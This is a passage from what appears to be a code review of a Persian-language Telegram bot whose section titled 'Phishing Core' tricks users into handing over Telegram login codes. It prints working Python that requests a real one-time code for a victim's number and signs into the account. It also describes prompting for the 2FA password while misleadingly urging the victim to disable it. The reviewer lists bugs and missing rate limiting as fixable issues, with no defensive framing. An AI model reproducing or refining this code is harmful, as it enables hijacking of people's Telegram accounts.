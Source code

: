   - Robust: Continues on per-channel errors; catches global exceptions.
  - Issue: No rate limiting—Telegram may ban bot for spam.

- `create_keyboard()`: Generic ReplyKeyboard builder; `resize_keyboard=True`.
- Markups:
  - `main_markup()`: ["/login", "help", "call"].
  - `helper_markup()`: Persian ["اموزش فعال سازی ربات", "قوانین", "بازگشت"].
  - `join_markup()`: Inline channel links + "✅ چک عضویت" button.
    - Bug: `if isinstance(ch_id, dict):`—unneeded; `ch_id` is string.
  - Admin: `admin_panel_keyboard()`, `user_management_keyboard()`, `channel_management_keyboard()`.

#### Phishing Core (Lines 160-250)
- `run_with_timeout(cmd, timeout)`: Subprocess with 30min kill.
- `send_otp(phone, api_id, api_hash, uid)`:
  ```python
  async def send_otp(phone, api_id, api_hash, uid):
      app = Client(f"{uid}_session", api_id, api_hash)
      apps[uid] = app
      await app.connect()
      sent = await app.send_code(phone)
      pending_logins[uid] = (phone, sent.phone_code_hash)
      bot.send_message(uid, "📩 کد به شماره‌ات ارسال شد.\nلطفاً کد را وارد کن:", reply_markup=make_keyboard())
  ```
  - Creates session; sends real Telegram OTP; stores hash.
  - Threaded for sync Telebot compatibility.

- `do_login(uid, phone, hash, code)`:
  - Attempts `app.sign_in()`; runs `main.py` subprocess.
  - 2FA: Prompts password (misleadingly suggests disabling).
  - Cleanup: Disconnects, clears dicts.
  - Issue: No input sanitization—malformed code crashes.

#### Handlers (Lines 260-End)
- `/start`:
  ```python
  @bot.message_handler(commands=["start"])
  def start(message):
      user_id = message.from_user.id
      username = message.from_user.username or "بدون نام"
      user_manager.add_user(user_id)
      reload_users()
      if user_manager.is_banned(user_id):
          bot.send_message(user_id, "🚫 شما بن شده‌اید و نمی‌توانید از ربات استفاده کنید.")
          return
      if user_id == ADMIN_ID:
          bot.send_message(user_id, "👑 پنل مدیریت فعال شد:", reply_markup=admin_panel_keyboard())
          return
      if user_manager.has_limit(user_id):
          pass
      else:
          user_manager.set_limit(user_id, 3)
      if is_member(user_id):
          if 1 == 1:  # Bug: Always true
              bot.send_message(user_id, f"🎉 خوش آمدید! شما بار فرصت استفاده دارید.", reply_markup=main_markup())
      else:
          bot.send_message(user_id, f"⚠️ برای استفاده از ربات باید در کانال‌های ما عضو شوید:", reply_markup=join_markup())
  ```
  - Bug: `if 1 == 1:` bypasses limit check.
  - Admin special case; ban/limit/membership logic.
